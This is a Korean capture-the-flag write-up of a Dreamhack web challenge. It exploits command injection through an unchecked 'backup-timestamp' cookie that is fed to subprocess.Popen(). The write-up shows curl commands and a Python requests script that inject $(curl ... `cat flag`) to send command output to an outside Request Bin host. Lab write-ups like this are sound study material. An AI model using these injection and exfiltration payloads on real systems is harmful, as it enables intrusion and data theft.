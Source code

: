 해당 백업 파일이 저장되는 시각을 나타내기 위해 현재 시각을 Unix Time 값으로 파일 이름을 지정하고 있는 것이다.<br />
## 최종 풀이
### 취약점 분석
해당 서버에서는 백업 파일을 저장할 때 유저로부터 "backup-timestamp"이라는 쿠키 값을 받아와 해당 값으로 파일을 저장한다.<br />
하지만 이 쿠키 값이 올바른지 확인하는 부분이 전혀 없고 그대로 `subprocess.Popen()`에 집어넣고 있기 때문에 **Command Injection** 취약점이 발생한다.<br />

### 공격 시도
#### 첫 번째 시도
```
curl -X POST http://host3.dreamhack.games:12336/backup_notes --cookie "backup-timestamp=; curl -X GET 'https://csjigcr.request.dreamhack.games?result=$(ls | base64 -w0)'"
```
backup-timestamp 쿠키 값을 `"; curl -X GET 'https://csjigcr.request.dreamhack.games?result=$(ls | base64 -w0)'"`로 설정해서 dreamhack의 Request Bin으로 `ls` 명령어의 결과를 보내려는 시도였는데 작동을 하지 않는다.<br />
Request Bin에 아무것도 들어오지 않는다.
#### 두 번째 시도
```
curl -X POST http://host3.dreamhack.games:12336/backup_notes --cookie "backup-timestamp=$(curl https://uutbsux.request.dreamhack.games -d {`pwd`})"
```
이번엔 페이로드를 이렇게 작성해보니까 제대로 값이 Request Bin에 전달되기는 하나 내 터미널의 값이 넘어가서 이 방법도 안될 것 같다. <br />
`$(curl https://uutbsux.request.dreamhack.games -d {\`pwd\`})` 이 값이 서버로 넘어가서 실행이 돼야하는데 내 컴퓨터에서 실행이 된 체로 넘어가서 쓸 수가 없다.
#### 세 번째 시도
```python
import requests

url = "http://host3.dreamhack.games:12336/"
request_bin = "https://ezmvnwi.request.dreamhack.games"

cookie = {
    "backup-timestamp": f"$(curl {request_bin} -d {{`cat flag`}})"
}

resp = requests.post(url + "/backup_notes", cookies=cookie)
print(resp)
```
터미널에서 직접 curl을 사용하는 것이 먹히지 않으니 이번에는 파이썬의 requests 모듈을 이용해보았다.<br />
이렇게 하면 이 전의 시도에서 생겼던 이슈가 해결되고 Request Bin에서 플래그를 받아올 수 있게 된다.
# 배운 것
웹 서버의 결과를 바로 얻어낼 수 없고 command injection 취약점이 없을 때 사용하는 방식에 익숙하지 않은데 연습할 수 있는 기회가 됐다.
